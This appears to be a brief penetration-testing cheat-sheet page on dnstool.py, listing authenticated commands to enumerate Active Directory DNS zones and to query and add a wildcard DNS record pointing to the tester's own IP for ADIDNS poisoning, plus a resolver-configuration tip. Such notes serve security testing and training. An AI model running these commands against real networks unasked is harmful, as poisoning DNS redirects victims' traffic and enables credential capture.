 ```yaml
---
tags:
  - tool
---
```

# dnstool.py

Manipulate DNS records.

## Capabilities

```powershell
# Check zones
dnstool.py -u $USER -p '$PASSWD' --print-zones $FQDN

# Query * record for ADIDNS poisoning
dnstool.py -u $USER -p '$PASSWD' --record '*' --action query $FQDN

# Populate * record for ADIDNS poisoning
dnstool.py -u $USER -p '$PASSWD' --record '*' --action add --data $OUR_IP $FQDN
```

**Note:** You will sometimes need to modify your `/etc/resolv.conf` to succesfully modify DNS data.

```powershell
nameserver $DNS_SERVER
```
